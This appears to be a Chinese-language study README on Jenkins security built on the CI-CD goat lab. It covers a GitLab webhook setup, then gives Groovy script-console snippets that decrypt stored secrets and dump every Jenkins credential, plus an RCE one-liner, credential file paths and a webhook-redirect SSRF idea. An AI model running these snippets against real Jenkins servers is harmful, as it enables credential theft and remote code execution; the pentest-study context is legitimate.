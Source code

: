 # Jenkins

## 为Gitlab配置Jenkins

使用CI-CD goat中的gitlab和Jenkins作为基础环境。首先要参考[使用 GitLab + Jenkins 实现持续集成（CI）环境](https://blog.csdn.net/weixin_46902396/article/details/118337250) 中的一些基础步骤，但是问题是现在的Jenkins似乎找不到gitlab的相关插件了，webhook也只有Generic Webhook Trigger这个插件。

因此安装文章中的基础配置走，例如配置ssh等。



在配置`Build Triggers`的时候需要改成`Generic Webhook Trigger`并设置token：

![image-20231125144223620](README.assets/image-20231125144223620.png)

gitlab那里的webhook需要带上token：

![image-20231125144259585](README.assets/image-20231125144259585.png)

这时候gitlab发生了对应的事件，Jenkins那边就会自动构建了。如果要设置pipeline，那就创建为Pipeline的Job再设置即可。

## Credentials凭据

Jenkins 将加密凭证存储在`credentials.xml`文件或`config.xml`. 要解密它们，您需要`master.key`和`hudson.util.Secret`文件。

所有文件都位于 Jenkins 主目录中：

```
$JENKINS_HOME/credentials.xml 
$JENKINS_HOME/secrets/master.key
$JENKINS_HOME/secrets/hudson.util.Secret
$JENKINS_HOME/jobs/example-folder/config.xml - Possible location
```



可以使用工具https://github.com/hoto/jenkins-credentials-decryptor。

如果有script console，也可以利用script console解密：

```groovy
println(hudson.util.Secret.fromString("{AQAAABAAAAAw7KtB5kDGICXLmcURPTCV8NDtibl+a3Ypl1gXtLcmTjg7i6yiKQDCe+x0/CZZXEYkmqe92wPC4o8mKwJtZbgYXg==}").getPlainText())

println(hudson.util.Secret.decrypt("{AQAAABAAAAAw7KtB5kDGICXLmcURPTCV8NDtibl+a3Ypl1gXtLcmTjg7i6yiKQDCe+x0/CZZXEYkmqe92wPC4o8mKwJtZbgYXg==}"))

com.cloudbees.plugins.credentials.SystemCredentialsProvider.getInstance().getCredentials().forEach{
  it.properties.each { prop, val ->
    println(prop + ' = "' + val + '"')
  }
  println("-----------------------")
}
```



## Script Console

位于`/script`。获得可以执行script console的用户权限的时候，可以在这里执行Groovy脚本：

![image-20231123155434585](README.assets/image-20231123155434585.png)



**RCE：**

```groovy
println "whoami".execute().text
```



**解密凭据：**

```groovy
println(hudson.util.Secret.fromString("{AQAAABAAAAAw7KtB5kDGICXLmcURPTCV8NDtibl+a3Ypl1gXtLcmTjg7i6yiKQDCe+x0/CZZXEYkmqe92wPC4o8mKwJtZbgYXg==}").getPlainText())

println(hudson.util.Secret.decrypt("{AQAAABAAAAAw7KtB5kDGICXLmcURPTCV8NDtibl+a3Ypl1gXtLcmTjg7i6yiKQDCe+x0/CZZXEYkmqe92wPC4o8mKwJtZbgYXg==}"))
```



也可以利用下面的命令解析：

```groovy
com.cloudbees.plugins.credentials.SystemCredentialsProvider.getInstance().getCredentials().forEach{
  it.properties.each { prop, val ->
    println(prop + ' = "' + val + '"')
  }
  println("-----------------------")
}
```

## attacked by webhook

通过gitlab的webhook访问自己设置的302跳转的服务器将post请求变成get请求后打内网的jenkins。



## Jenkins Security

参考https://cloud.hacktricks.xyz/v/cn-cloud/pentesting-ci-cd/jenkins-security ，已经很全面了。

## 参考

https://www.freebuf.com/articles/web/376186.html